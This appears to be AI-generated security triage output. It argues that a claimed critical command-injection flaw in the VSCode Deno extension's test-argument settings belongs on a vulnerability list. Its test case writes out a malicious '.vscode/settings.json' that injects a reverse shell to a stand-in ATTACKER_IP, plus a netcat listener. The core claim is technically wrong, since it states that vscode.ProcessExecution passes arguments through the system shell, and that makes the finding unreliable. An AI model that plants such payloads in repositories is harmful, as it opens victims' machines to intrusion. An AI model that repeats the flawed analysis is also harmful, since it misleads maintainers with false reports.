 The provided vulnerability description is valid and should be included in the updated list based on the given instructions.

It is a **valid vulnerability** that is **not yet mitigated**.

It has a **vulnerability rank of critical**, which is higher than the minimum requirement of "high".

The vulnerability class is **Remote Code Execution (RCE)** and **Command Injection**, which are among the specified classes to include.

It is triggered by providing a malicious repository, which aligns with the scenario described in the instructions ("threat actor will try to trigger vulnerability in VSCode extension by providing malicious repository to victim with manipulated content.").

It is not excluded by any of the exclusion criteria:
- It's not caused by developers explicitly using insecure code patterns within project files, but by the extension's handling of workspace settings.
- It's not only missing documentation; it requires code-level mitigations.
- It's not a Denial of Service vulnerability; it's an RCE.

Therefore, the vulnerability should remain in the list as is.

```markdown
### Vulnerability List

* Vulnerability Name: Command Injection via `deno.codeLens.testArgs` and `deno.testing.args` settings

* Description:
    1. The VSCode Deno extension allows users to configure additional arguments for the `deno test` command via the `deno.codeLens.testArgs` and `deno.testing.args` settings. These settings are intended to provide flexibility in test execution, such as adding `--allow-net` or other flags.
    2. A threat actor can create a malicious repository that includes a `.vscode/settings.json` file. This settings file can be crafted to include malicious commands within the `deno.codeLens.testArgs` or `deno.testing.args` settings. For example, setting `deno.codeLens.testArgs` to `["--allow-all", "; malicious command;"]`.
    3. When a victim opens this malicious repository in VSCode and has the Deno extension enabled for the workspace, the malicious settings are loaded.
    4. If the victim then uses the "Run Test" code lens or the Test Explorer to execute a test within the malicious repository, the extension will construct a `deno test` command incorporating the malicious arguments from the settings.
    5. The extension uses `vscode.ProcessExecution` to execute the constructed command. Due to insufficient sanitization of the arguments from the settings, the malicious command injected by the threat actor will be executed by the system shell.

* Impact:
    - Remote Code Execution (RCE). A threat actor can execute arbitrary commands on the victim's machine with the privileges of the VSCode process. This can lead to full system compromise, data exfiltration, installation of malware, and other malicious activities.

* Vulnerability Rank: critical

* Currently Implemented Mitigations:
    - None. The extension directly uses the values from the settings to construct and execute the command without sanitization or validation.

* Missing Mitigations:
    - Input sanitization and validation: The extension should sanitize and validate the arguments provided in `deno.codeLens.testArgs` and `deno.testing.args` settings. It should ensure that no shell- Metacharacters or command separators are present in the arguments.
    - Command construction using safe APIs: Instead of directly constructing shell commands from user-provided input, the extension should use APIs that prevent command injection by separating commands and arguments, such as using array-based arguments for `child_process.spawn` or similar functions if VSCode API allows more secure command execution.

* Preconditions:
    1. Victim has VSCode installed with the Deno extension.
    2. Victim opens a malicious repository in VSCode and enables the Deno extension for the workspace (either explicitly or by having a `deno.json` in the workspace root if auto-enable is active).
    3. Malicious repository contains a `.vscode/settings.json` file with malicious commands in `deno.codeLens.testArgs` or `deno.testing.args` settings.
    4. Victim triggers test execution by using "Run Test" code lens or Test Explorer within the malicious repository.

* Source Code Analysis:

    1. **`client/src/commands.ts` - `test` function:**
    ```typescript
    export function test(
      _context: vscode.ExtensionContext,
      extensionContext: DenoExtensionContext,
    ): Callback {
      return async (uriStr: string, name: string, options: TestCommandOptions) => {
        // ...
        const config = vscode.workspace.getConfiguration(EXTENSION_NS, uri);
        const testArgs: string[] = [
          ...(config.get<string[]>("codeLens.testArgs") ?? []), // Vulnerable point: Reading testArgs from config
        ];
        // ...
        const nameRegex = `/^${name.replace(/[.*+?^${}()|[\]\\]/g, "\\$&")}$/`;
        const args = ["test", ...testArgs, "--filter", nameRegex, filePath]; // Constructing command arguments
        // ...
        const definition: tasks.DenoTaskDefinition = {
          type: tasks.TASK_TYPE,
          command: "test",
          args, // Arguments including potentially malicious testArgs
          env,
        };

        assert(workspaceFolder);
        const denoCommand = await getDenoCommandName();
        const task = tasks.buildDenoTask( // Calling buildDenoTask with potentially malicious definition
          workspaceFolder,
          denoCommand,
          definition,
          `test "${name}"`,
          args,
          ["$deno-test"],
        );
        // ...
        await vscode.tasks.executeTask(task); // Executing the task
        // ...
      };
    }
    ```
    The `test` function retrieves `deno.codeLens.testArgs` from the workspace configuration without any sanitization. These arguments are directly passed into the `args` array used to construct the `DenoTaskDefinition`.

    2. **`client/src/tasks.ts` - `buildDenoTask` function:**
    ```typescript
    export function buildDenoTask(
      target: vscode.WorkspaceFolder,
      process: string,
      definition: DenoTaskDefinition,
      name: string,
      args: string[],
      problemMatchers: string[],
    ): vscode.Task {
      const exec = new vscode.ProcessExecution(
        process,
        args, // Arguments are passed directly to ProcessExecution
        definition,
      );

      return new vscode.Task(
        definition,
        target,
        name,
        TASK_SOURCE,
        exec,
        problemMatchers,
      );
    }
    ```
    The `buildDenoTask` function creates a `vscode.Task` with a `vscode.ProcessExecution`. Critically, the `args` array, which can contain malicious commands from `deno.codeLens.testArgs`, is passed directly to `vscode.ProcessExecution`. `vscode.ProcessExecution` when executed by `vscode.tasks.executeTask` will execute the command with the system shell, making it vulnerable to command injection if arguments are not properly sanitized.

    3. **`docs/testing.md` - `deno.codeLens.testArgs` and `deno.testing.args` settings:**
    ```markdown
    - `deno.codeLens.testArgs`: Provides additional arguments that should be set
      when invoking the Deno CLI test from a code lens. _array of strings, default
      `[ "--allow-all" ]`_.
    - `deno.testing.args`: Arguments to use when running tests via the Test
      Explorer. Defaults to `[ \"--allow-all\" ]`.
    ```
    The documentation confirms the existence and purpose of these settings, which are the source of the vulnerability.

* Security Test Case:

    1. Create a new directory named `malicious-repo`.
    2. Inside `malicious-repo`, create a subdirectory named `.vscode`.
    3. Inside `.vscode`, create a file named `settings.json` with the following content to inject a reverse shell command (example for Linux, adjust for other OS if needed):
    ```json
    {
      "deno.enable": true,
      "deno.codeLens.testArgs": [
        "--allow-all",
        "; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1' #"
      ]
    }
    ```
    Replace `ATTACKER_IP` and `ATTACKER_PORT` with your attacker machine's IP address and listening port.
    4. In `malicious-repo`, create a file named `test.ts` with a simple Deno test:
    ```typescript
    Deno.test("simple test", () => {
      console.log("Test running");
    });
    ```
    5. Start a netcat listener on your attacker machine: `nc -lvnp ATTACKER_PORT`.
    6. Open the `malicious-repo` directory in VSCode. Ensure the Deno extension is active for this workspace.
    7. In VSCode, open the `test.ts` file. You should see the "Run Test" code lens above the `Deno.test` declaration.
    8. Click the "Run Test" code lens.
    9. Observe that the test executes (you should see "Test running" in the output).
    10. On your attacker machine, you should receive a reverse shell connection, indicating successful command injection and RCE.

This test case demonstrates that by providing a malicious repository with crafted settings, an attacker can achieve remote code execution when a victim runs tests using the VSCode Deno extension's code lens feature.
